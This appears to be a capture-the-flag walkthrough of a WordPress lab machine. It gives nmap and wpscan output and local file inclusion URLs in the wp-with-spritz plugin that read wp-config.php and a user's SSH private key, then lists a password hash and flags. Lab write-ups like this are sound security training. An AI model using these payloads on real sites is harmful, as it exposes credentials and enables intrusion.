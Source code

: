 # CMS

![](../.gitbook/assets/2f4e3297ac6a42adb01ded4111fe13f6.png)

## NMAP SCAN

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2a:da:3d:c8:51:73:2c:4e:f3:5e:95:4d:5c:b8:a0:7d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQChy6Me54Y6ABt+Lq2S+9dOCWVSIjRlnL0R8U7XiGwXjukHJQh+o4mkvKBEvrAoS/m8ZZmSJDyShrL+1m/JfLUBwQqJlKAkVJa7KKp7lP37ZMWBapomONi7p5vlRRcS3UED0WgnD75i/AOQWF9rJfHbld+1qMa6skb+vO7f45Uy2sp6z7fBYA6/XGjn2l68IrI04n952DawxEZnvjQ+HvJo9Dn9ACR7XcKbrwoH9XrcdE4M8tPCSoaMRB0T/OzcOf7fSYup274qQubRJcNFwdgHTi+PUdWH+NB2tF7fs5bykKX8LlwG7+JVyikdCcx3Pze4PDF30PNPlhS2ZDsOmAMl
|   256 8d:22:9a:44:8c:d4:89:f7:d9:e2:51:db:18:eb:f6:5b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB3vpSKb6YjHb35fCY6fWjXJJEVQZ0h7DVEG/YLQLTH6GcGNtBusU6O4fp4ZVuXhHx34jETu9hxZO0oJ6KMZZkg=
|   256 78:8e:46:d3:64:6a:5a:68:d2:09:4d:9d:3b:27:9f:be (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEdTVMa2b5TuNkhVgbzev10wmnyZOl9PY4m9rpbZk98X
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.3.2
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: CMS
```

## PORT 80 ENUMERATION

![](../.gitbook/assets/ed5cf7dd7322426d90b4c9c590a3a73a.png)

### /BLOG

![](../.gitbook/assets/99bb08575d7c4be185c6afe3e9549242.png)

### WPSCAN

* WORDPRESS 5.3.2

```text
wpscan --url http://172.31.1.8 -e ap
```

![](../.gitbook/assets/06a548853c2a4455b82ef5b1eb460b4b.png)

![](../.gitbook/assets/1918c7a67c264bc3a9890191f37f4955.png)

![](../.gitbook/assets/86f93bf3196d41acadaab8dd0abdecc1.png)

![](../.gitbook/assets/baef06101f7041cabd0a858ac2676620.png)

![](../.gitbook/assets/6a3ea56457284f3eacc7f600aaa38973.png)

### LFI PROOF OF CONCEPT \(POC\)

![](../.gitbook/assets/bd50f03a7e6d4e129411c511b2a7ab2f.png)

## GET WORDPRESS CREDS

```text
view-source:http://172.31.1.8/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php
```

![](../.gitbook/assets/4a6fdd1a9e554647a79bb123d7ac0a04.png)

* CREDS didn´t work in ssh login

#### GET ID\_RSA of ANGEL USER

```text
view-source:http://172.31.1.8/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../home/angel/.ssh/id_rsa
```

![](../.gitbook/assets/ebcb07a747de41109f9bcc699ded68fe.png)

![](../.gitbook/assets/6ec9bb480a0f472abd08e59296a34165.png)

## PRIVESC

![](../.gitbook/assets/efdbdf54d93f417d82d5d1bcb3792d12.png)

## CREDS

```text
angel:$6$b7KKDavx$XyLlSOAXUs5TAW6yU2NFBjbgf6oMwS1fKPGP/7DJGzFz2oOLK/iYgxicNU0/HIG.5uH.PryvhMQgLSdz18ZrL0:18324:0:99999:7:::
```

## FLAGS

### USER

```text
d5ca58536a32935299d9f1026436f149
```

### ROOT

```text
459daa8ee877e8048563ca65dc867afa
```

![](../.gitbook/assets/f32977a349284be88d518e76148423c6.png)

